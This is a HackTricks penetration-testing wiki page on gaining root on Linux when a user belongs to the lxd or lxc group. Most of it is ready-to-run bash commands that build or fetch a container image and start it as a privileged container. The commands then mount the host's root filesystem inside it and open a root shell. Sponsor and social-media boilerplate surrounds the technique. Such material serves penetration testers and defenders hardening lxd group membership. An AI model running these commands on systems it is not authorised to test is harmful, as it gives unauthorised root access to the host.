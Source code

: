 

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


If you belong to _**lxd**_ **or** _**lxc**_ **group**, you can become root

# Exploiting without internet

You can install in your machine this distro builder: [https://github.com/lxc/distrobuilder ](https://github.com/lxc/distrobuilder)\(follow the instructions of the github\):

```bash
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml
```

Then, upload to the server the files **lxd.tar.xz** and **rootfs.squashfs**

Add the image:

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

Create a container and add root path

```bash
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Execute the container:

```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

# With internet

You can follow [these instructions](https://reboare.github.io/lxd/lxd-escape.html).

```bash
lxc init ubuntu:16.04 test -c security.privileged=true
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
lxc start test
lxc exec test bash
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

# Other Refs





<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


